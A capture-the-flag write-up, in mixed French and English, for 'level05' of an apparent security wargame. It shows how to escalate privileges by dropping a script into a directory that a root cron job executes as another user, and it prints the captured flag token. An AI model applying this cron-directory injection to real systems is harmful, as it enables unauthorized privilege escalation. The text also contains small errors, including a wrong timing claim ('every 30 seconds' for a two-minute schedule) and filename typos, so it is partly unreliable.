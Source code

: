 As soon as you log in to level05, a notification appears :
<pre><code>You have new mail.</code></pre>

On fait un **cat** du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tâche **cron** dont le format est le suivant :
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> So every 30 seconds the task: <code>su -c 'sh /usr/sbin/openarenaserver"</code> will be executed

We **cat** the file <code>/usr/sbin/openarenaserve</code>, which gives us :
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do
# For each file in the folder
		(ulimit -t 5; bash -x "$i")
		# With an interval of 5 sc, execute the file
		rm -f "$i"
		# Delete the file
done
```

The idea is to create a file that we will put in the folder <code>/opt/openarenaserver/</code> so that it will run as soon as the task **cron** is activated :
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> We store in <code>/tmp/token</code> the result because **cron** takes place in background and does not display a message.

We just have to make **ls** of <code>/opt/openarenaserver/</code> and wait for the file <code>/opt/openarenaserver/getflash.sh</code> to be deleted to know when the task has been done, so we just have to retrieve the flag :
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>

